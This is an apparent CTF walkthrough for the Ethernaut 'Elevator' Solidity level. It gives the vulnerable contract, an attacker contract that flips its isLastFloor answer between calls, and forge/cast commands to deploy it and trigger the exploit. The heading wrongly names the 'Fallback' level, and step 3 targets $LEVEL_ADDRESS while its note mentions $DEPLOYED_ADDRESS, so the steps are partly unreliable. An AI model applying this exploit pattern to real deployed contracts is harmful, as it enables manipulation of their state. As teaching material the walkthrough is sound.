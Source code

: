 ## Fallback Level Outline

**Difficulty : 4/10**

This elevator won't let you reach the top of your building. Right?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

## Solution

We can create a 'switch' variable that can be flipped after every function call effectively returning a different value on every call.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Building {
    Elevator elevator;
    bool isTopFloor = false;

    constructor(address _elevator) {
       elevator = Elevator(_elevator); 
    }

    function attack() public {
        elevator.goTo(42);
    }
     
    function isLastFloor(uint _floor) external returns (bool) {
        bool tempSwtich = isTopFloor; 
        isTopFloor = !isTopFloor;
        return tempSwtich;
    }
}

interface Elevator {
    function goTo(uint _foor) external;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Building --constructor-args $LEVEL_ADDRESS --private-key $PRIVATE_KEY 
```

3. call our newly deployed contract 
```console
cast send $LEVEL_ADDRESS "attack()" --gas 300000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. quick confirmation that boolean top has been changed
```console
cast call $LEVEL_ADDRESS "top()"
```
output 
```
0x0000000000000000000000000000000000000000000000000000000000000001
```
> variable top has changed form false to true

## Extra Resources
`public` and `private` are **visibility modifiers**

`pure` and `view` are **state modifiers**

- `pure`: promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers.
- `view`: promises functions that will only read, but not modify the state
- `default`: [no modifier] promises functions that will read and modify the the state
